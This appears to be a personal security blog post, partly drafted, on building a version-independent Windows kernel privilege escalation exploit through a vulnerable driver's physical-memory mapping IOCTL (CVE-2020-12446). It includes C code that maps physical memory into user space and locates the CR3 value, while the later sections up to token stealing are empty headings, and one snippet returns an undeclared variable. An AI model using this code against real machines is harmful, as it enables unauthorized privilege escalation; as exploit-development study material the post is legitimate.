 [Home](https://plackyhacker.github.io)

# Version Independent Physical Memory Read/Write Privilege Escalation

This is my first post since passing the [Offensive Security Exploitation Expert](https://www.offsec.com/courses/exp-401/) exam. I suppose it is now time to start practicing my chosen tradecraft. I am currently studying a vulnerability that was discovered in early 2025, was being used in ransomware attacks, but doesn't have a public exploit (that I am aware of). I will be posting something about that shortly.

This got me thinking about how I might write a privilege escalation exploit that is operating system version independent. I decided to look at [CVE-2020-12446](https://nvd.nist.gov/vuln/detail/CVE-2020-12446) which has multiple vulnerabilities leading to privilege escalation.

The CVE isn't really what I am interested in, any CVE with a physical read/write primitive would do.

# The Basics

If you are reading this then I assume you know how a driver works and how we can connect to it from user-mode. If not, feel free to read some of my other posts. The symbolic name for the driver is `\\.\EneIo` and the vulnerable IOCTL I decided to target is `0x80102040`. Short story: this IOCTL maps the physical memory in kernel-space to a virtual address space in user-space.

The code snippet below shows how we can map the physical memory space to a virtual allocations:

```c
// user-mode data structure
typedef struct _MAPPHYSTOVA {
    ULONGLONG Size;
    ULONGLONG Ignore2;
    ULONGLONG Ignore3;
    ULONGLONG MappingAddress;
    ULONGLONG Ignore5;
} MAPPHYSTOVA, * PMAPPHYSTOVA;

// ...


// send IOCTL to map memory
ULONGLONG MapMemory(HANDLE hDevice, ULONGLONG* SizeOfMapping) {
    DWORD bytesReturned = 0;

    MAPPHYSTOVA map = { 0 };

    BOOL result = DeviceIoControl(hDevice, IOCTL_WINIO_MAPPHYSTOVA, &map, sizeof(map), &map, sizeof(map), &bytesReturned, NULL);

    *SizeOfMapping = map.Size;
    return mapIn.MappingAddress;
}
```

The struct contains five `ULONGLONG` fields but only two of them are used: `Size` is the size of the mapping, and `MappingAddress` the virtual allocation that has been assigned by the kernel. Notice that the `map` variable is passed in as the user input and the user output. Once the `DeviceIOControl` is completed the `map` variable is popoulated with the two revelant variables.

# Virtual Address to Physical Memory Mapping



# Dicovering the CR3 Value





```c
DWORD FindCR3Value(ULONGLONG VirtualAddressBase, DWORD* cr3Page) {

    DWORD count = 0;

    for (DWORD pageIndex = 1; pageIndex <= 256; pageIndex++) {
        // CR3 value is at an offset of 0xA0
        DWORD64 potential_cr3 = *((DWORD64*)((BYTE*)VirtualAddressBase + (0x1000 * pageIndex) + 0xA0));

        if ((potential_cr3 & 0xFFF) == 0 &&
            ((potential_cr3 >> 12) & 0xF) != 0 && ((potential_cr3 >> 16) & 0xF) != 0 && ((potential_cr3 >> 20) & 0xF) != 0 &&
            (potential_cr3 >> 24) == 0) {

            // halpLMStub reference is at an offset of 0x70
            DWORD64 checkHalpLMStub = *((DWORD64*)((BYTE*)VirtualAddressBase + (0x1000 * pageIndex) + 0x70));
            if ((checkHalpLMStub & 0xfffff80000000000) == 0xfffff80000000000) {
                *cr3Page = 0x1000 * pageIndex;
                return ((DWORD)potential_cr3 & 0xFFFFFFFF);
            }
        }
    }

    return 0;
}
```

# Discovering NTOSKRNL Base

# Discovering Processes

# Discovering Privileged Processes

# Token Stealing

# Conclusion

[Home](https://plackyhacker.github.io)
